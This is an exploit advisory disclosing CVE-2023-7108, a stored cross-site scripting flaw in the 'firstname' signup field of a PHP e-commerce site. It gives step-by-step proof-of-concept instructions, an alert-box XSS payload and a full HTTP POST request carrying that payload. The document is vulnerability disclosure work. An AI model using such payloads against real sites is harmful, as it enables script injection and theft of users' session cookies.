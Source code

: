 # E-Commerce Website - Stored Cross-site Scripting
+ **Exploit Title:** E-Commerce Website - Stored Cross-site Scripting
+ **Date:** 2023-24-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/e-commerce-website-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/E-COMMERCE_WEBSITE_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7108

## References: 
+ **CVE-2023-7108:** https://vuldb.com/?id.249003
+ https://www.cve.org/CVERecord?id=CVE-2023-7108

## Description:
E-Commerce Website 1.0 allows Stored Cross-site Scripting via parameter 'firstname' in "Electricks/Electricks-shop/pages/user_signup.php".
E-Commerce Website is vulnerable to a cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data.
An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. 
This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the user registration form: "http://localhost/Electricks/Electricks-shop/pages/user_signup.php"
+ Fill First name with this payload: `<video/src=x onerror=alert(document.domain)>`
+ Fill the the all form and click Create Account button.
+ Then navigate to user login page: "http://localhost/Electricks/Electricks-shop/pages/user_login_page.php" and login.
+ Then XSS will be triggered permanently.
+ Refresh and alert will continue to pop-up.
+ Example request for 'firstname' parameter:
```
POST /Electricks/Electricks-shop/pages/user_signup.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 202
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/Electricks/Electricks-shop/pages/user_signup.php
Cookie: PHPSESSID=8imurtv40ut9ah7s8bk6auen4i
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

firstname=%3Cvideo%2Fsrc%3Dx+onerror%3Dalert%28document.domain%29%3E&middlename=test3&lastname=test3&email=test3&address=test3&contact=test3&username=test3&password=test&submit=
```
+ Go to user login page: "http://localhost/Electricks/Electricks-shop/pages/user_login_page.php" and login.
![3-1](https://github.com/h4md153v63n/CVEs/assets/5091265/931dcbe2-fc38-44ad-b314-a080f8a60cd0)
![3-2](https://github.com/h4md153v63n/CVEs/assets/5091265/753e20c4-eef8-4655-bc3f-869370c08d24)
